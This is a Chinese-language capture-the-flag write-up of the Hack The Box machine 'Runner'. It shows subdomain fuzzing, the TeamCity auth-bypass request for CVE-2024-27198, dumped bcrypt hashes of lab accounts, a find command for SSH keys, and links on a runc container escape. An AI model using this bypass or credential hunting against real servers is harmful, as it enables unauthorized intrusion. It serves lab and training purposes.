

## Recon


nmap



gobuster 的dir模式和wfuzz竟然没有扫出东西来…… 

```java
cewl -w wordlists.txt -d 2 -m 5 http://runner.htb 
```

再次跑子域名：

```java
gobuster fuzz --url  http://FUZZ.runner.htb -w wordlists.txt  -k  -v 
```


发现页面  [`http://teamcity.runner.htb/login.html`](http://teamcity.runner.htb/login.html) 

先加入到hosts文件中。

## User Flag

看了下子域名的目录遍历和网页源代码，没有新的发现

继续下一步，teamcity的版本是Version 2023.05.3 (build 129390)


参考这篇[文章](https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/)，访问： [`http://teamcity.runner.htb/hax?jsp=/app/rest/server;.jsp`](http://teamcity.runner.htb/hax?jsp=/app/rest/server;.jsp) 发现是可以利用成功的。

管理员信息：

```java
<user username="admin" name="John" id="1" email="john@runner.htb" lastLogin="20240426T035325+0000" href="/app/rest/users/id:1">
<properties count="10" href="/app/rest/users/id:1/properties">
<property name="addTriggeredBuildToFavorites" value="true"/>
<property name="hasSeenExperimentalOverview" value="true"/>
<property name="lastSeenSakuraUIVersion" value="2023.05.3"/>
<property name="lastSelectedCreateObjectOption" value="createManually"/>
<property name="plugin:vcs:anyVcs:anyVcsRoot" value="admin"/>
<property name="showAdvancedOpts_editCreateProject" value="true"/>
<property name="showAllProjectTabs" value="true"/>
<property name="teamcity.server.buildNumber" value="129390"/>
<property name="visible.projects.configured" value="true"/>
<property name="was.logged.in" value="true"/>
</properties>
<roles>
<role roleId="SYSTEM_ADMIN" scope="g" href="/app/rest/users/id:1/roles/SYSTEM_ADMIN/g"/>
</roles>
<groups count="1">
<group key="ALL_USERS_GROUP" name="All Users" href="/app/rest/userGroups/key:ALL_USERS_GROUP" description="Contains all TeamCity users"/>
</groups>
</user>
```

利用脚本：https://github.com/W01fh4cker/CVE-2024-27198-RCE 

进入后台


试了下，貌似没什么用


发现backup


database_dump下没法破解。。。

```java
└─$ cat users 
ID, USERNAME, PASSWORD, NAME, EMAIL, LAST_LOGIN_TIMESTAMP, ALGORITHM
1, admin, $2a$07$neV5T/BlEDiMQUs.gM1p4uYl8xl8kvNUo4/8Aja2sAWHAQLWqufye, John, john@runner.htb, 1714091673842, BCRYPT
2, matthew, $2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em, Matthew, matthew@runner.htb, 1714088157371, BCRYPT
11, h454nsec2943, $2a$07$Pxnyf5RZNFpcq8dFlPXta.Z3VQEFPuY0xVWPVBsU.MrAsvz5gfn6a, , "", 1714091702791, BCRYPT

```

然后 `./config/projects/AllProjects/pluginData/ssh_keys` 下发现有个key

好家伙 名字也给了 登之

其实刚刚的那个exploit脚本用 `find / -name "id_rsa" 2>/dev/null` 也可以找到 （

## Root flag

默认习惯 `sudo -l`康康…… 什么也没有还要密码

注意到还有个用户叫：matthew


访问 [http://portainer-administration.runner.htb/](http://portainer-administration.runner.htb/)


找到一个cve也只是遍历用户名罢了

测试加密方式

```bash
hashid '$2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em'
$2a$07$neV5T/BlEDiMQUs.gM1p4uYl8xl8kvNUo4/8Aja2sAWHAQLWqufye
```


漏洞信息：

[https://snyk.io/blog/cve-2024-21626-runc-process-cwd-container-breakout/](https://snyk.io/blog/cve-2024-21626-runc-process-cwd-container-breakout/)

[https://nitroc.org/en/posts/cve-2024-21626-illustrated/#exploit-via-setting-working-directory-to-procselffdfd](https://nitroc.org/en/posts/cve-2024-21626-illustrated/#exploit-via-setting-working-directory-to-procselffdfd)

